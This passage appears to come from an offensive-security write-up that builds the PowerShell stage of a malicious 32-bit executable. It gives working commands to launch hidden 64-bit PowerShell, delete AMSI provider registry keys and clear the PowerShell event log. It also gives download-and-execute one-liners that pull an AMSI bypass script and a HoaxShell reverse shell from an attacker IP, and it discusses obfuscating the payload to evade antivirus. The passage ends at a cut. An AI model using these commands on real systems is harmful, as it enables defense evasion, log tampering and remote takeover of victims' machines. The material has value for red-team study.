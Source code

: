 ```powershell
cmd /c start /wait /min "" C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe -ep bypass -nop -w hidden -noni -c "Remove-Item -Path 'HKLM:\SOFTWARE\Microsoft\AMSI\Providers*\*' -Force -ea SilentlyContinue; Clear-EventLog -LogName 'Windows PowerShell' -ea SilentlyContinue"
```
Since the `-w hidden` parameter does not seem to be particularly effective in hiding the PowerShell window, a clever way around this problem was to run it via `cmd /c start /wait /min`:
```powershell
cmd /c start /wait /min "" C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe -ep bypass -nop -w hidden -noni
```
Also, since the executable I'm working on has a 32-bit architecture, simply running `PowerShell.exe` would mean running the 32-bit version of PowerShell. Instead, by running `C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe`, I ensure that the 64-bit one is launched.
The embedded PowerShell code is used to fully deactivate AMSI and to clean up the PowerShell event log, but it will work in the second phase of this activity, once the Administrator right is obtained:
```powershell
Remove-Item -Path 'HKLM:\SOFTWARE\Microsoft\AMSI\Providers*\*' -Force -ea SilentlyContinue; Clear-EventLog -LogName 'Windows PowerShell' -ea SilentlyContinue
```
Plenty of _clean_ methods can be found on the web to bypass AMSI at the process level, so that even malicious .NET code can be executed, thus not only PowerShell code. However, given the maturity demonstrated by Windows Defender in detecting in-memory patches to the detriment of `amsi.dll`, even the most effective AMSI bypasses trigger Windows Defender to intervene by killing the process ([Behavior:Win32/AMSI_Patch.Ex.D](https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?Name=Behavior:Win32/AMSI_Patch.Ex.D)). For more information about differences between PowerShell only and process-specific AMSI bypasses, please take a look here: [https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/](https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/).

The second piece of payload, instead, tries to disable the AMSI PowerShell by using the following payload: [lainamsiopensession.ps1](https://github.com/raskolnikov90/LainAmsiOpenSession/blob/main/lainamsiopensession.ps1)
```powershell
iex(New-Object Net.WebClient).DownloadString('http://192.168.182.128/4m51.ps1')
```
After that, it waits 30 seconds before running the HoaxShell HTTPS reverse shell:
```powershell
Start-Sleep -Seconds 30; iex(New-Object Net.WebClient).DownloadString('http://192.168.182.128/revs.ps1')
```
Waiting 30 seconds will be useful in the next phases, when I'll escalate the privileges.

Putting PowerShell commands such as the above (`Remove-Item -Path 'HKLM:\SOFTWARE\Microsoft\AMSI\Providers*\*' -Force`) can trigger some AV also during static analysis, so, by using [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation), I slightly obfuscated the payload in this way:
